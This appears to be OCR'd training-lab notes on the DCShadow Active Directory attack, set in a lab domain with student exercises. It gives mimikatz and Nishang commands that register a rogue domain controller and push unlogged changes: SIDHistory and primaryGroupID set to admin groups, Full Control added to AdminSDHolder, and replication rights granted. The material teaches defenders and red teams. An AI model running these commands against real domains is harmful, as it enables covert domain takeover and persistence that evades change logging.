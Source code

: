 
# DCShadow

• DCShadow temporarily registers a new domain controller in the target domain and uses it to "push" attributes like SIDHistory, SPNs etc) on specified objects without leaving the change logs for modified object

• The new domain controller is registered by modifying the Configuration container, SPNs of an existing computer object and couple of RPC services. 

• Because the attributes are changed from a "domain controller", there are no directory change logs on the actual DC for the target object. 

• By default, DA privileges are required to use DCShadow. 

• In my experiments, the attacker's machine must be part of the root domain.

## We can use mimikatz for DCShadow

Two mimikatz instances are required: 

• One to start RPC servers with SYSTEM privileges and specify attributes to be modified:
```cmd
!+ 
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow" 
```

• And second with enough privileges (DA or otherwise) to push the values. 
```cmd
lsadump::dcshadow /push
```

• DCShadow can be used with minimal permissions by modifying ACLs of -

– The domain object.
	• DS-Install-Replica (Add/Remove Replica in Domain) 
	• DS-Replication-Manage-Topology (Manage Replication Topology) 
	• DS-Replication-Synchronize (Replication Synchornization)
	
– The Sites object (and its children) in the Configuration container. 
	• CreateChild and DeleteChild 
	
– The object of the computer which is registered as a DC. 
	• WriteProperty (Not Write) 

– The target object. 
	• WriteProperty (Not Write) 

• We can use `Set-DCShadowPermissions` from Nishang for setting the permissions.

## DCShadow - Minimal Permissions

• We can use `Set-DCShadowPermissions` from Nishang for setting the permissions.

• For example, to use DCShadow as user student1 to modify root1user object from machine `mcorp-student1`: 
```powershell 
Set-DCShadowPermissions -FakeDC mcorp-student1 - SAMAccountName root1user -Username student1 -Verbose 
```

• Now, the second mimkatz instance (which runs as DA) is not required.

#### Set SIDHistory of a user account to Enterprise Admins or Domain Admins group: 
```powershell
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5- 21-280534878-1496970234-700767426-519 

# To use above without DA: 
Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose
```

#### Set primaryGroupID of a user account to Enterprise Admins or Domain Admins group: 
```powershell
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

#### Modify ntSecurityDescriptor for AdminSDHolder to add Full Control for a user 
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
```

#### Append a Full Control ACE from above for SY/BA/DA with our user's SID at the end. 
```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>
```

#### We can even run DCShadow from DCShadow which I have named Shadowception:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl
```

#### We need to append following ACEs with our user's SID at the end: 

• On the domain object: 
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID) 
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID) 
```

• On the attacker computer object: `(A;;WP;;;UserSID)`
• On the target user object: `(A;;WP;;;UserSID)`
• On the Sites object in Configuration container: `(A;CI;CCDC;;;UserSID)`

# Shadowception

• If we maintain access to the computer for which we modified the permissions with the user whose SID we added, we can modify the attributes of the specific user whose permissions we modified. 

• Let's see how we can modify properties of root13user from mcorpstudent13 machine as student13 using DCShadow.

# Learning Objective 23

• Use DCShadow to set a SPN for rootxuser. 

• Using DCShadow, set rootxuser's SIDHistory without using DA. 

• Modify the permissions of AdminSDHolder container using DCShadow and add Full Control permission for studentx.